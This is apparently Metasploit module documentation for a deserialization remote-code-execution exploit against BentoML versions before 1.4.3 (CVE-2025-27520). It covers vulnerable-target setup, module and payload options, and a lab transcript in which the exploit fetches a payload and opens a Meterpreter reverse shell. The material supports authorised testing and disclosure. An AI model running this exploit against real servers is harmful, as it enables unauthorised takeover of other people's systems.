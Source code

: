## Vulnerable Application

A Remote Code Execution (RCE) vulnerability caused by insecure deserialization has been identified in the v1.4.2 of BentoML.
It allows any unauthenticated user to execute arbitrary code on the server.

The vulnerability affects:

    * 1.3.4 <= BentoML < 1.4.3

This module was successfully tested on:

    * BentoML 1.4.2 installed on Ubuntu 24.04


### Installation

1. `pip install -U bentoml==1.4.2`

2. Define APIs in a service.py file:

```python3
import bentoml


@bentoml.service(resources={"cpu": "2"})
class Summarization:
    @bentoml.api(batchable=True)
    def summarize(self, texts):
        return texts
```

3. `bentoml serve --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_rce_cve_2025_27520`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/bentoml_rce_cve_2025_27520
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > options

Module options (exploit/linux/http/bentoml_rce_cve_2025_27520):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python variant also Python ≥3.8 (Accepted: none, bas
                                              h, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      aNHnUjyAfXo      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:32880) at 2025-04-15 22:29:18 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.16
OS           : Ubuntu 24.04 (Linux 6.8.0-56-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
